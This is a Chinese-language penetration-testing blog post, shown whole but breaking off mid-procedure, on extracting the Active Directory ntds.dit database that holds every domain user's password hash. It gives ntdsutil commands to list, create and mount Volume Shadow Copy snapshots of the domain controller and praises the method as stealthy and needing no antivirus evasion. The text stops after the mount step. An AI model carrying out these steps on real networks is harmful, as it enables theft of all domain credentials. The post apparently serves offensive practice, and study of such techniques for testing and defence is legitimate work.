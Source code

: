 ```yaml
---
title: "Get Ntds"
date: 2019-09-19T15:37:54+08:00
lastmod: 2019-09-19T15:37:54+08:00
draft: false
tags: [域渗透]
categories: [内网渗透]
comment: true
---
```

Get Ntds
<!--more-->
# Get Ntds.dit

>>Ntds.dit是主要的AD数据库，包括有关域用户，组和组成员身份的信息。它还包括域中所有用户的密码哈希值。为了进一步保护密码哈希值，使用存储在SYSTEM注册表配置单元中的密钥对这些哈希值进行加密。

## Volume Shadow Copy(快照服务框架)

```
hash数量：所有用户
免杀：不需要
优点：
    获得信息全面
    简单高效
    无需下载ntds.dit，隐蔽性高
```
### ntdsutil

```
支持系统：
Server 2003
Server 2008
Server 2012
```
- 查询当前系统快照
```
ntdsutil snapshot "List All" quit quit
ntdsutil snapshot "List Mounted" quit quit
```
![](https://puui.qpic.cn/fans_admin/0/3_1452557490_1568879309708/0)

- 创建快照
```
ntdsutil snapshot "activate instance ntds" create quit quit
```
![](https://ae01.alicdn.com/kf/H2079eff136494ae89fff202b69c04a0dJ.jpg)

**guid为{c6548a26-aed9-41c4-966e-e34c4bf52ae3}**

- 挂载快照
```
ntdsutil snapshot "mount {c6548a26-aed9-41c4-966e-e34c4bf52ae3}" quit quit
```
![](https://ae01.alicdn.com/kf/H03f17d269a134fae9e05e0ecbd7e728eL.jpg)